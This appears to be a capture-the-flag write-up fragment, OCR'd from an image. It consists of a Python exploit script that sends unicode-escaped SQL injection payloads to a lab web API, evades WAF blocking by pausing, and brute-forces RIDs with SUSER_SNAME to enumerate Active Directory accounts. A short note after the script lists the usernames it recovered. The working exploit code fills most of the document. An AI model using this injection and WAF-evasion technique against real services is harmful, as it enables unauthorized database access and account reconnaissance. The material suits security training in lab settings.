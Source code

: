 import requests
import re
import json
import time


def little(string):
    t= bytearray.fromhex(string)
    t.reverse()
    return ''.join(format(x,'02x') for x in t).upper()


url = 'http://10.10.10.179/api/getColleagues'
c = 1100
for x in range(1100, 6100, 1000):
	for c in range(15):
		SID = '0x0105000000000005150000001C00D1BCD181F1492BDFC236'
		JUNK = '0' + hex((x+c))[2:].upper()
		RID = SID + little(JUNK) + 4 * '0'
		print('[+] RID Is : {}'.format(RID))
		# payload = raw_input('Payload : ')
		print('[*] Counter is : {}'.format((x+c)))
		payload = "-' union select 1,2,3,4,SUSER_SNAME({})-- -".format(RID)
		pattern = re.compile(r'([0-9a-f]{2})')
		payload = pattern.sub(r"\\u00\1", payload.encode('hex'))
		# print('[+] Sending payload : {0}'.format(payload))
		r = requests.post(url, data='{"name": "' + payload+ '"}', headers={'Content-Type':'application/json;charset=utf-8'})
		if '403 - Forbidden: Access is denied.' in r.text:
			print('[-] Sleeping until WAF cooldown')
			time.sleep(10)
			continue
		print(r.text)
		jsona = json.loads(r.text)
		try:
			if jsona:
				for element in jsona: 
					del element[u'position']
					del element[u'id']
					del element[u'email']
					del element[u'name']
		except TypeError:
			if jsona:
				del jsona[u'position']
				del jsona[u'id']
				del jsona[u'email']
				del jsona[u'name']
		data = json.dumps(jsona, sort_keys=True, indent=4)
		print(data)
		c += 1
</exploit.py><end>
after running i got long respone including some new users name 
# Users 
DnsAdmins
DnsUpdateProxy
svc-nas
Privileged IT Accounts
andrew
tushikikatomo
lana
dai